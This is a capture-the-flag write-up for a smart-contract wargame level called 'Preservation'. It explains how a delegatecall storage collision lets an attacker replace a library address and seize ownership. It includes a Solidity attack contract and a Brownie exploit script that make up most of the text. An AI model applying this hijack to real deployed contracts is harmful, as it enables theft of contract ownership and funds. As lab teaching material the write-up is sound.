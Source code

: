 # Preservation 
This levels requires you to know about storage in smart contracts as in privacy level and to know delegation attack as in delegation level.

## Steps:
1. Deploy malios contract that has the same storage layout as the Preservation contract.
2. Change timeZone1Library address to that of a maliose contract by the use of the delegation call.
3. Call `setFirstTime` function with any attribute.

#### Step 1:
You should deploy a contract with same storage layout as the Preservation contract  and having the function `setTime`.
Inside this function is were you would take ownership of the contract by this statement `owner = tx.origin`.

Here's the code of the contract:
````solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

contract Attack{
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner; 
    uint storedTime;

    function setTime(uint _time) public{
        owner = tx.origin;
    }

}
````
#### Step 2&3:
In this step you should abuse the delegation call to change the address of `timeZone1Library`.The delegated called contract has one variable which is in slot one,so the delegate call will change that of `timeZone1Library` not storedTime.So we can just call the function `setFirstTime()`
and pass the address of the deployed malusios contract casted to uint.
This steps is done in console or brownie.

here is the code used:
```python
def exploit():
    # Get account address you can see first CTFs for complete code 
    account = get_account()
    # Get contract ABI
    preservation = interface.Preservation(config['Address'])
    #first call
    preservation.setFirstTime(int('0xD953221A4B2AAFF90B865aB281FE197661AE6d88',16),{"from": account})
    #second call (the parameter is not important)
    preservation.setFirstTime(int('0xD953221A4B2AAFF90B865aB281FE197661AE6d88',16), {"from": account})

```